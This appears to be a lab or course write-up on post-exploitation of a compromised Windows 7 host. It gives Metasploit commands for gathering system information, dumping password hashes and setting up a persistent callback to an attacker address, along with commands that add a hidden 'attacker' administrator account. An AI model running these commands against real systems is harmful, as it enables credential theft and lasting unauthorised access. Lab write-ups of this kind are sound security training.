


# Post-Exploitation

## Overview

In this step, we perform post-exploitation activities on the compromised Windows 7 system to gather further information and maintain access. We use tools like Metasploit and custom scripts to achieve this.

## Tools Used

- Metasploit
- Custom scripts

## Steps and Commands

### Gathering System Information

**Tool: Metasploit**
```bash
sysinfo
```
*Description: This command gathers basic system information from the compromised host.*


### Dumping Password Hashes

**Tool: Metasploit**

```bash
hashdump
```

*Description: This command dumps password hashes from the compromised host.*


As shown in the image above, once a system is compromized, I was able to get the password hashes for all the users on the target system. What I did was to use a Password cracking tool called Ophcrack to crack these passwords and see their plaintext as shown below: 





And after cracking the passwords, I was able to crack one of the accounts passwords as shown below:


As shown above, the password for the test account was easy to brute force and was hence easily cracked. This was one easy way of cracking the password, I could of course have used other tools with wordlists to crack the passwords and this would be more sufficient and more appropriate in the industry.


### Persistence Techniques
After getting user accounts and passwords, the next step was to establish persistence on the target system, this ensures that when we are disconnected from the machine due to it being switched off or due to technical issues, we can always have a way back to the system. 

**Technique: Using the Persistence Exploit**
With this technique, I used the persistence exploit available in Metasploit

```bash
use exploit/windows/local/persistence
set SESSION 1
set LHOST 192.168.88.252
set LPORT 4444
exploit

```





**Technique: Adding a new user**

This technique works by adding new users to the compromized system, this allows us to have a way back to the system.

```bash
meterpreter > execute -f cmd.exe -a "/c net user attacker password123 /add"

meterpreter > execute -f cmd.exe -a "/c net localgroup administrators attacker /add"

```


*Description: These commands create a new user and add them to the administrators group to maintain access.*
And as seen in the screenshot above, users are created to maintain access.


## Recommendations

- Regularly monitor and audit user accounts.
- Implement strong password policies and use multi-factor authentication.
